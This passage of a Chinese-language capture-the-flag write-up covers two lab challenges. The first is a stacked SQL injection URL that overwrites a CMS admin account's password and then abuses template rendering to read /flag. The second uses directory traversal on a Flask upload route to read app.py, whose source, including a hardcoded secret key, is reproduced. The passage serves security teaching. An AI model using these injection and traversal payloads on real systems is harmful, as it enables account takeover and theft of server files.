 `http://127.0.0.1:5000/?exp=1;replace INTO zzz_user(uid,u_gid, u_lid, u_onoff, u_order, sex, username, password, question, answer, regtime, truename, face, province, city, district, address, post, tel, mobile, email, qq, u_desc, adminrand, lastlogintime, lastloginip, logincount, sysinfo, points, balance) VALUES (1, 1, 1, 1, 0, '%E7%94%B7', 'admin', '1ccbbb718e0e9c3a', '8TBRJ2H5NXW57EVF', 'S8DDQC9YV494G84Q', '', '%E5%88%9B%E5%A7%8B%E4%BA%BA', 'face01.png', '', '', '', '', '', '', '', '', '', '', '6a79122eab1e8abd10bcabd91ebbc36c', '2020/11/22 17:25:13', '127.0.0.1', 6, '', 0, 0);--`

修改admin密码为041676

没有写权限，但是我们只要读到flag就好了，利用这个cms的模板渲染机制，修改模板为我们想读的文件/flag，来拿到flag

## profile system

一看就是一个flask(它的cookie)，文件上传可以目录穿越，猜测后端访问uploads路由是这样的：`/uploads/<path:path>`
直接读取`/uploads/../app.py`

app.py

```python
from flask import Flask, render_template, request, flash, redirect, send_file,session,render_template_string
import os
import re
from hashlib import md5
import yaml


app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = os.path.join(os.curdir, "uploads")
app.config['SECRET_KEY'] = 'Th1s_is_A_Sup333er_s1cret_k1yyyyy'
ALLOWED_EXTENSIONS = {'yaml','yml'}

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower()

@app.route("/")
def index():
    session['priviledge'] = 'guest'
    return "home"

@app.route("/upload", methods=["POST"])
def upload():
    file = request.files["file"]
    if file.filename == '':
        flash('No selected file')
        return redirect("/")
    elif not (allowed_file(file.filename) in ALLOWED_EXTENSIONS):
        flash('Please upload yaml/yml only.')
        return redirect("/")
    else:
        dirname = md5(request.remote_addr.encode()).hexdigest()
        filename = file.filename
        session['filename'] = filename 
        upload_directory = os.path.join(app.config['UPLOAD_FOLDER'], dirname)
        if not os.path.exists(upload_directory):
            os.mkdir(upload_directory)
        upload_path = os.path.join(app.config['UPLOAD_FOLDER'], dirname, filename)
        file.save(upload_path)
        return os.path.join(dirname, filename)


@app.route("/uploads/<path:path>")
def uploads(path):
    return send_file(os.path.join(app.config['UPLOAD_FOLDER'], path))

```